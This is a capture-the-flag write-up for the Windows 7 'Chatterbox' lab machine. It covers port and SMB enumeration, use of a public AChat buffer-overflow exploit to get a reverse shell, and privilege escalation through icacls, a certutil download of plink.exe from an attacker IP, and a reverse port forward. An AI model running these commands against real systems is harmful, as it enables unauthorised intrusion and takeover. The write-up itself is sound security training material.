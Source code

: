 ## Initial Enumeration

```
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp open  http    AChat chat system httpd
|_http-title: Site doesn't have a title.
|_http-server-header: AChat
9256/tcp open  achat   AChat chat system
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
```

### SMB Enumeration

```
Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-03-16T07:26:01
|_  start_date: 2025-03-14T12:50:01
|_clock-skew: mean: 6h20m04s, deviation: 2h18m36s, median: 5h00m02s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-03-16T03:26:02-04:00

```


### Additional Information

- [SpeedGuide Port 9256](https://www.speedguide.net/port.php?port=9256)

![](Images/Pasted%20image%2020250315223211.png)

## Exploitation

We will follow the instructions in the exploit-db post to modify the Python code with the buffer generated via `msfvenom`.

[Exploit: AChat chat system remote command execution](https://www.exploit-db.com/exploits/36025)

### Update the Buffer and Write Pointer Address

Update the buffer with the necessary values and add the write pointer address for the target machine.

![](Images/Pasted%20image%2020250315230224.png)

![](Images/Pasted%20image%2020250315230254.png)

### Setting Up NC Listener and Running the Exploit

We need to set up our Netcat (NC) listener and run the code using Python 2 due to the exploit’s syntax.

![](Images/Pasted%20image%2020250315230337.png)

![](Images/Pasted%20image%2020250315230344.png)

After running the exploit, we successfully gain a shell on the target host as the user `alfred`.

**Note**: Chatterbox is a tough machine, as failing the exploit causes the machine to require a restart.

## Post Exploitation

Now that we have a normal-level user on the system, we can begin enumerating for possible privilege escalation.

### Grab User Flag

First, we can quickly grab the user flag from the desktop.

![](Images/Pasted%20image%2020250315231006.png)

Flag:  
`d20c433812e9b5d408ecccd2d62c4631`

### Finding Administrator Flag

Since we don't have permissions to read the admin flag, let's continue enumeration.

![](Images/Pasted%20image%2020250315231053.png)

After further enumeration, we discover credentials for the `Administrator` account in the registry. Since this is a CTF, we will assume these credentials are valid and attempt to use them to establish a session.

### Double-Checking Credentials with `netexec`

We verify the credentials are correct using `netexec`.

![](Images/Pasted%20image%2020250315233619.png)

### Two Pathways for Obtaining the Admin Flag

#### 1. **Permission Misconfiguration**

We can see that although `alfred` doesn’t have direct access to read the file, they have full control over the directory and its respective files.

- `(I)` means **Inherited** permissions.
- `(OI)` stands for **Object Inherit**, which applies permissions to files within the directory.
- `(CI)` stands for **Container Inherit**, which applies permissions to subdirectories of the current directory.
- `(F)` stands for **Full Control**, meaning **SYSTEM** has full rights to the directory and its contents.

We can modify the permissions on the `root.txt` file using `alfred` to read the flag.

Command to grant full control to `alfred` on `root.txt`:

`icacls root.txt /grant CHATTERBOX\Alfred:(F)`

![](Images/Pasted%20image%2020250315234838.png)

We can now read the root flag. This wasn’t likely the intended solution, as we didn’t "root" the box, so we will also attempt to generate a full administrative shell.

#### 2. **Spawning an Admin Shell via Port Forwarding**

We need to send `plink.exe` to the victim machine to start establishing the port forwarding.

Using `certutil` to download `plink.exe`:

`certutil -urlcache -f http://10.10.14.13/plink.exe plink.exe`

![](Images/Pasted%20image%2020250315235951.png)

![](Images/Pasted%20image%2020250316000138.png)

Now that `plink.exe` is on the victim machine, we establish a connection using:

`plink.exe -l root -pw kali -R 445:127.0.0.1:445 10.10.14.13 -P 2222`
![](Images/Pasted%20image%2020250316003043.png)
### Verifying the Connection with `netstat`

Check the connection:

`netstat -tuln`

![](Images/Pasted%20image%2020250316002534.png)

We have successfully established the connection. Now we can interact with the host remotely.

### Running `winexe` to Open Admin Shell

Using `winexe` to open a new command prompt as Administrator. Although this shell isn’t the best, it gets the job done.

![](Images/Pasted%20image%2020250316002702.png)

---
